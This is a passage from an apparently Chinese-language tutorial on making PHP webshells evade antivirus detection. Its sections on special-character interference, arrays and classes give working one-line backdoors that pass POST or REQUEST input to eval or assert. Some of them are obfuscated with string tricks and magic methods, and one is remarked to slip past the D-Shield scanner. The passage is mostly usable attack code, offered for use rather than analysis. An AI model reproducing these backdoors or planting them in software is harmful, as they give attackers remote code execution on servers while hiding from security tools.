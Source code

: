 ```php
$p1->test();
?>
```
# 6. 特殊字符干扰
特殊字符干扰，要求是能干扰到杀软的正则判断，还要代码能执行, 网上广为流传的连接符
```php
//初代版本
<?php
$a = $_REQUEST['a'];
$b = null;
eval($b.$a);
?>
//不过已经不能免杀了，利用适当的变形即可免杀，如
<?php
$a = $_POST['a'];
$b = "\n";
eval($b.=$a);
?>
//其他方法大家尽情发挥如”\r\n\t”, 函数返回，类，等等
//除了连接符号 还有个命名空间的东西 \ 具体大家可以看看 php 手册
<?php
function dog($a){
    \assert($a);
}
dog($_POST[x]);
?>
```
当然还有其他的符号，熟读PHP手册就会有不一样的发现
# 7. 数组
把执行代码放入数组中执行绕过
```php
<?php
$a = substr_replace("assexx","rt",4);
$b=[''=>$a($_POST['q'])];
?>
//多维数组

<?php
$b = substr_replace("assexx","rt",4);
$a = array($arrayName = array('a' => $b($_POST['q'])));
?>
```
# 8. 类
说到类肯定要搭配上魔术方法比如 __destruct()，__construct()
```php
<?php 
class me
{
  public $a = '';
  function __destruct(){
    assert("$this->a");
  }
}
$b = new me;
$b->a = $_POST['x'];
?>
//用类把函数包裹,D 盾对类查杀较弱
```